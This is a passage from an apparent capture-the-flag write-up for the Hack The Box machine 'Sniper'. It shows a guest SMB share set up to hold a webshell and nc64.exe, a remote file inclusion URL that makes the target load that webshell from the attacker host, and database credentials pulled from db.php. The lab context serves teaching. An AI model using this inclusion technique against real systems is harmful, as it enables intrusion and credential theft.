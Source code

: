 3. Continue enumeration by browsing the website and we find http://sniper.htb/blog/?lang=blog-en.php
   ?lang=xxx looks like it could be vulnerable by RFI. Reading up on RFI a common way is to setup a local SMB share and
   fetch a webshell - lets try that!

   root@p3:~# vi /etc/samba/smb.conf

   [pub-share]
   Comment = SMB Drops
   path = /srv/pub-share
   writable = yes
   guest ok = yes
   read only = no
   force user = nobody

   root@p3:~# service smbd restart

   Make sure that the share is reachable:
   root@p3:/srv/pub-share# smbclient //10.10.14.10/pub-share
     Enter WORKGROUP\root's password:
     Try "help" to get a list of possible commands.
     smb: \> ls
       .                                   D        0  Fri Nov 22 11:57:22 2019
       ..                                  D        0  Fri Nov 22 10:57:42 2019
       sniper-rev.php                      N       94  Fri Nov 22 09:50:24 2019
       nc64.exe                            N    45272  Wed Nov 20 15:16:38 2019
       webshell.php                        N     7206  Fri Nov 22 11:00:15 2019

     		554197528 blocks of size 1024. 501299668 blocks available

4. Execute RFI and connect to webshell.php for Initial Foothold.
    http://sniper.htb/blog/?lang=//10.10.14.10/pub-share/webshell.php
      whoami
      nt authority\iusr

5. Poking around in the box we find db.php (C:\inetpub\wwwroot\user)
    type db.php
      <?php
      // Enter your Host, username, password, database below.
      // I left password empty because i do not set password on localhost.
      $con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
      // Check connection
      if (mysqli_connect_errno())
      {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
      }
      ?>

    Our first pair of creds - dbuser:36mEAhz/B8xQ~2VM for MYSQL database sniper

6. Looking for users we find 2 accounts, Administrator and Chris. However we don't have permissions to enter any of them.
    dir
     Directory of C:\Users
      04/11/2019  06:04 AM    <DIR>          .
      04/11/2019  06:04 AM    <DIR>          ..
      04/09/2019  05:47 AM    <DIR>          Administrator
      04/11/2019  06:04 AM    <DIR>          Chris
      04/09/2019  05:47 AM    <DIR>          Public
                     0 File(s)              0 bytes
                     5 Dir(s)  17,963,245,568 bytes free

